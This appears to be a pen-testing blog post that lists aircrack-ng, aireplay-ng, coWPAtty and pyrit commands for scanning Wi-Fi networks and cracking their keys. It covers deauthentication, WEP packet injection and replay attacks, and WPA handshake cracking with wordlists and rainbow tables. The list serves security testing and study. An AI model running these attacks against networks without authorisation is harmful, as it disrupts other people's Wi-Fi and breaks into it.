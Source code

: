 ```yaml
---
title: Attacking Wifi - Commands
categories: [Hacking, Pen Testing, Wireless, Aircrack-ng]
layout: post
---
```

This post will highlight many of the different aircrack-ng commands used in hacking/pen testing wireless networks.  This post does not go into the how, but is more of a reference of the commands and parameters.

## General

#### Monitor Mode
There are a couple different options for putting your wifi adapter into monitor mode.

> `iw dev <interface> set monitor none`

> `airmon-ng start <interface>`

#### Scanning Networks
Airodump-ng is used to scan for wifi networks and clients that are in the range of your wireless card

> `airodump-ng -c <channel> -w <capture> --wps --band abg --essid <essid> --bssid <bssid> <int>`

The following flags are all optional
* -c <channel> - This will filter your scan to a specific wifi channel
* --wps - This flag will include WPS information for wireless networks found
* -w <capture> - This flag will write the scan results to a file
* --band <bands> - This flag allows you to only scan wifi networks operating on specified bands
* --essid <essid> - This flag will filter the scan to a specific Client
* --bssid <bssid> - This flag will filter the scan to a specific AP

#### Deauthentication Attack
> `aireplay-ng -0 1 -a <ap> -c <client> <int>`

## Cracking

#### IV-based Crack
> `aircrack-ng <capture>`

#### PTW-based Crack
> `aircrack-ng -z <capture>`

#### Word List-based Crack
> `aircrack-ng -w <wordlist> <capture>`

#### Airolib DB Crack
> `aircrack-ng -r <dbName> <capture>`

#### JTR-based Crack
> `john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <essid> -w - <capture>`

## WEP Attacks

#### Fake Authentication
> `aireplay-ng -1 0 -e <essid> -a <ap> -h <you> <interface>`

#### ARP Request Replay Attack
> `aireplay-ng -3 -b <ap> -h <you> <interface>`

#### Interactive Packet Replay Attack
> `aireplay-ng -2 -b <ap> -d ff:ff:ff:ff:ff:ff -f 1 -m 68 -n 86 <interface>`

#### KoreK chopchop attack
> `aireplay-ng -4 -b <ap> -h <you> <interface>`

#### Fragmentaion Attack
> `aireplay-ng -5 -b <ap> -h <you> <interface>`

#### Craft ARP Request Packet**
> `packetforge-ng -0 -a <ap> -h <you> -l <sourceIP> -k <destIP> -y <xorFile> -w <out>`

#### Inject Packet**
> `aireplay-ng -2 -r <packet> <interface>`

#### Fake Shared Key Authentication
> `aireplay -1 -0 -e <essid> -y <captureFile> -a <ap> -h <you> <interface>`

## WPA Attacks

#### coWPAtty Attack 
> `cowpatty -r <capture> -f <wordlist> -2 -s <essid>`

#### Rainbow Table Generation
> `genpmk -f <wordlist> -d <hashesFilename> -s <essid>`

#### Rainbow Table coWPAtty Attack
> `cowpatty -r <capture> -d <hashesFilename> -2 -s <essid>`

#### Pyrit Sniff
> `pyrit -r <interface> -o <capture> stripLive`

#### Pyrit Crack Dictionary
> `pyrit -r <capture> -i <wordlist> -b <ap> attack_passthrough`

#### Pyrit Crack Database
Import Wordlist into Database
> `pyrit -i <wordlist> import_passwords`

Add the ESSID of the Access Point
> `pyrit -e <essid> create_essid`

Generate PMKs for the ESSID
> `pyrit batch`

Launch Pyrit in database mode
> `pyrit -r <capture> -b <ap> attack_db`


